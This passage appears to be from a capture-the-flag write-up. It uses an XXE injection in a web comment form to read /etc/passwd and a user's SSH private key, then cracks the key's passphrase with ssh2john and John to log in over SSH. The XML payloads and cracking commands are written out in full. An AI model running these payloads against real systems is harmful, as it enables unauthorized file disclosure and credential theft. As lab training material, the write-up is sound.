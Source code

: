 And it worked! We now know that we can inject `XML` code into the comments. This occurs when an application processes `XML` input containing a reference to an external entity. If the `XML` parser is configured insecurely, it can allow an attacker to exploit this reference to access internal files or resources, leading to sensitive data exposure, or hopefully remote code execution!  
<br>

### Exploiting the Vulnerability
Lets try to read the `/etc/passwd`{: .filepath} file using the following XML code:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>
</comment>
```
This works and we can now see the contents of the `/etc/passwd`{: .filepath} file displayed on the page. I will take not of the credentials and move on.
![Screenshot](Screenshot_18.png){: width="972" height="589" }

As stated earlier, password authentication is disabled for `SSH`, so we will need a key to `SSH` in as Barry. We can use the same method to read the `/home/barry/.ssh/id_rsa` file to get the private key. I will use `BurpSuite` to resend the earlier request with the altered request, or alternatively, input directly to the site to read the file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 	
'file:///home/barry/.ssh/id_rsa'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&test;</com>
</comment>
```
### SSH Access and User Flag

![Screenshot](Screenshot_19.png){: width="972" height="589" }

This works and we now just have to decrypt the key and `SSH` in as Barry. We will have to use `ssh2john` to convert the key to a format that `John` can crack. The syntax for this is as follows:

```console
ssh2john id_rsa > id_rsa.hsh
john id_rsa.hsh --wordlist=<wordlist> 
```

The passkey was found successfully, now we can `SSH` in as Barry. 
![Screenshot](Screenshot_20.png){: width="972" height="589" }

Make sure to change the permissions of the key to 600 (rw-) before attempting to `SSH` in. Remove any extra spaces in the key, this could cause the key not to be accepted. 


[^1]: Source: [PayloadsAllTheThings GitHub Repository](https://github.com/swisskyrepo/PayloadsAllTheThings)